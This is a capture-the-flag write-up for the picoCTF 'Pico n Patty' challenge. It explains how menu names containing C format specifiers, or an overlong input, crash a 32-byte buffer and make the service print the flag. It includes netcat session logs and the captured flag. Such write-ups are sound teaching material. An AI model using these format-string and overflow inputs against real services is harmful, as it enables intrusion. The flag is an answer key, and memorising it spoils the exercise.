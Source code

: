 ```
}
```

Trying to understand the code, we learn about format specifiers in C. These can be used to identify that we should pick `Gr%114d_Cheese` and `Cla%sic_Che%s%steak` in the menu items. This is because these items contain format specifiers that will extend the input to greater than 32 characters (buffer size) and overflow the buffer, causing the flag to be printed.

Here is a snippet of the webshell,

```
tnmyhere-picoctf@webshell:~$ nc mimas.picoctf.net 49548
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```


Alternatively, even supplying a user input of greater than the buffer size (32 characters) gave the flag. Even though the user input is checked, it only gives an output in the terminal, but the input is directly supplied without being checked for length so the flag is printed anyway.

```
tnmyhere-picoctf@webshell:~$ nc mimas.picoctf.net 49548
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: 222222222222222222222222222222222222222222222222
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

**Learnt:** 
1. format specifiers

**References:**
https://www.geeksforgeeks.org/format-specifiers-in-c/
